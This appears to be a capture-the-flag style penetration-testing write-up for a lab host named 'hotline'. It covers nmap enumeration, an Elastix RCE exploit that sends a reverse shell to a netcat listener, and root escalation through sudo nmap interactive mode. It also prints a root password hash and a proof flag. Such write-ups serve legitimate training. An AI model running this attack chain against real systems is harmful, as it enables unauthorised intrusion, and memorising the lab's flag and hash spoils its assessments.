






# hotline
## Summary
### System Information
```text
IP: 10.11.1.217
OS: Linux
Hostname: hotline
```
### Credentials
```text

```

### Hashes
```text
ffb5d84a211ae8398d6ae474f2242af3

root:$1$uF5XC.Im$8k0Gkw4wYaZkNzuOuySIx/:16902:0:99999:7:::
```

### Ports
```text
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp   open  smtp?
80/tcp   open  http       Apache httpd 2.2.3
110/tcp  open  pop3?
111/tcp  open  rpcbind    2 (RPC #100000)
143/tcp  open  imap?
443/tcp  open  ssl/http   Apache httpd 2.2.3 ((CentOS))
824/tcp  open  status     1 (RPC #100024)
993/tcp  open  imaps?
995/tcp  open  pop3s?
3306/tcp open  mysql?
4190/tcp open  sieve?
4445/tcp open  upnotifyp?
4559/tcp open  hylafax?
5038/tcp open  asterisk   Asterisk Call Manager 1.1
```

***

## Enumeration
### NMAP

```bash
nmap -sC -sV -v -Pn -T4 -p- -oN scans/nmap_full.txt 10.11.1.217
```

```text
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 1a:f6:e5:4c:f5:65:5c:a3:79:ce:e1:30:f9:5a:9c:af (DSA)
|_  2048 b1:9e:c8:ea:eb:4c:fc:55:cb:1e:4d:4c:40:6e:80:f2 (RSA)
25/tcp   open  smtp?
|_smtp-commands: hotline.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp   open  http       Apache httpd 2.2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to https://10.11.1.217/
|_http-server-header: Apache/2.2.3 (CentOS)
110/tcp  open  pop3?
111/tcp  open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            821/udp   status
|_  100024  1            824/tcp   status
143/tcp  open  imap?
443/tcp  open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2012-03-23T19:29:13
| Not valid after:  2013-03-23T19:29:13
| MD5:   f41c e874 ef3c f28d dd80 9345 c005 3209
|_SHA-1: c443 1924 35ea d598 03bf cc15 40e9 8611 5e84 5491
|_http-server-header: Apache/2.2.3 (CentOS)
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_ssl-date: 2022-07-26T09:43:17+00:00; +3h59m45s from scanner time.
|_http-title: Elastix - Login page
824/tcp  open  status     1 (RPC #100024)
993/tcp  open  imaps?
995/tcp  open  pop3s?
3306/tcp open  mysql?
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-alpn: ERROR: Script execution failed (use -d to debug)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp open  sieve?
4445/tcp open  upnotifyp?
4559/tcp open  hylafax?
5038/tcp open  asterisk   Asterisk Call Manager 1.1
```

From the scan, I've made note of port `5038` which stands out. 

### Website

Login page for `Elastix`.

  

Taking note of the copyright year `2006` we can try and get a rough idea of the software version and any potential exploits available.

## Shell as Asterisk

First result we get is an [RCE exploit](https://www.exploit-db.com/exploits/18650) for `Elastix 2.2.0`.

Let's download and run it.

```bash
wget https://www.exploit-db.com/raw/18650 -O exploit.py
```

Since this exploit is for `python2` we can use a virtual environment.

```bash
virtualenv -p /usr/bin/python2.7 venv-python2.7
source venv-python2.7/bin/activate
```

Before running the exploit we first need edit some variables.

```bash
rhost="10.11.1.217"
lhost="192.168.119.230"
lport=9001
```

  

Next we can setup our `netcat` listener.

```bash
rlwrap nc -lnvp 9001
```

And finally run the exploit.

```bash
python exploit.py
```

And we get a callback.

  

### Upgrade Shell

```bash
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

## Shell as Root
### Enumerate Permissions

```bash
sudo -l
```

We can run lots of stuff as root, in particular `nmap`.

  

`nmap` has an interactive mode that which we can use to get a root shell.

```bash
sudo nmap --interactive
!sh
```

And we get our root shell!

  

### Proof

```bash
cat /root/proof.txt && /sbin/ifconfig
```

  

```text
ffb5d84a211ae8398d6ae474f2242af3
```